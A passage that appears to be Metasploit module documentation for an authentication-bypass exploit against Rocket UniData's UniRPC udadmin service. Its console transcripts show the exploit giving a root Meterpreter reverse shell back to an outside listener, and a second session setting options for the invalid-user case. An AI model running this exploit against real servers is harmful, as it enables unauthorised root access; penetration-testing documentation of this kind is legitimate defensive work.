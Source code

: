 ```

Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / root:0:1000
[*] 10.0.0.198:31438 - Sending OsCommand request
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.198:54560) at 2023-04-11 09:36:56 -0700

meterpreter > getuid
Server username: root
```

### Version 8.2.4 with invalid user

```
msf6 > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
LHOST => ens160

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIDATA_VERSION 8.2.4
[-] Unknown datastore option: UNIDATA_VERSION.

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_USERNAME fake
UNIRPC_USERNAME => fake

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > show options

Module options (exploit/linux/misc/unidata_udadmin_auth_bypass):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RHOSTS           10.0.0.198       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            31438            yes       The target port (TCP)
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   UNIRPC_GID       1000             yes       gid to authenticate with (must not be 0, does not need to correspond to the username)
```